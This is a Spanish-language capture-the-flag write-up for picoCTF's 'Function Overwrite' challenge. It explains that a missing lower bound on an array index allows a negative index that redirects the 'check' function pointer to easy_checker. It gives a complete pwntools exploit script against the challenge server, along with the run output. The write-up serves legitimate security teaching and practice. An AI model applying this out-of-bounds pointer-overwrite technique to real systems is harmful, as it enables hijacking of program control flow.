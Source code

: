 # Function Overwrite

En este ejercicio nos dan un binario y su código fuente.

```c
Arch:     i386
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

El ejercicio nos pide una historia y después pide 2 números:

```c
./vuln                         
Tell me a story and then I'll tell you if you're a 1337 >> blablabla
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
5
6
You've failed this class.   
```

Vamos a ver un poco el código:

```c
void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
```

Si nos fijamos en esa función podemos ver que:

* Nuestra historia se guarda en la variable `story`
* Nuestros números se guardan en `num1` y `num2`
* Hay un chequeo que comprueba si `num1` es menor a 10 y, si es así, suma el elemento `num1` del array `fun` al valor de `num2`
* Se llama a la función `check`

Como podemos ver el programa nos da el poder de controlar un índice, y peor aún, nos deja cambiar el contenido de ese elemento. Para rematar esto, aunque haya un chequeo de máximo, no hay un chequeo mínimo, lo que nos permite introducir un numero negativos.

Que pasa si hacemos por ejemplo un `fun[-4] += 10`? Le sumaremos `10` al valor que esté en la dirección de `fun - 16 bytes`.

Entonces, **como `check` es un puntero a función guardado en memoria**, y el código realiza una operación de suma con `+=`, podemos **sumar un valor a la dirección actual de `check`** para redirigir el flujo de ejecución.

```c
void (*check)(char*, size_t) = hard_checker;
```

En lugar de escribir directamente la dirección de la función `easy_checker`, **calculamos la diferencia entre `easy_checker` y `hard_checker`**, y sumamos ese valor a `check`. De este modo, `check` termina apuntando a `easy_checker`.

Luego, cuando se llama a `check(story, strlen(story))`, se ejecuta `easy_checker`, que nos da la flag si el contenido de `story` suma 1337 en hexadecimal (es decir, la suma de los valores ASCII de los caracteres que contiene).

```c
void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}
```

Vamos a hacer el script:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./vuln_patched")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b main
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("saturn.picoctf.net", 53697)

def main():
    io = conn()

    story = "A" * 19 + "15"
    info(f'Suma Story: {sum(ord(c) for c in story)}')
    
    num1 = (exe.symbols["fun"] - exe.symbols["check"]) // 4
    info(f'Num1: {num1}')
    
    num2 = exe.symbols.easy_checker - exe.symbols.hard_checker
    info(f'Num2: {hex(num2)}')
    
    io.sendlineafter(b'>> ', story)
    io.sendlineafter(b'.', f'{num1}'.encode())
    io.recvline()
    io.sendline(str(num2))
    io.interactive()

if __name__ == "__main__":
    main()

```

Vamos a probarlo:

```c
[+] Opening connection to saturn.picoctf.net on port 61719: Done
[*] Suma Story: 1337
[*] Num1: -16
[*] Num2: -0x13a
/home/ub1cu0/Desktop/picoCTF/function_overwrite/solve.py:35: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b'>> ', story)
/home/ub1cu0/Desktop/picoCTF/function_overwrite/solve.py:38: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(num2))
[*] Switching to interactive mode
You're 1337. Here's the flag.
picoCTF{SECRETO}
[*] Got EOF while reading in interactive
```

Tenemos la flag!
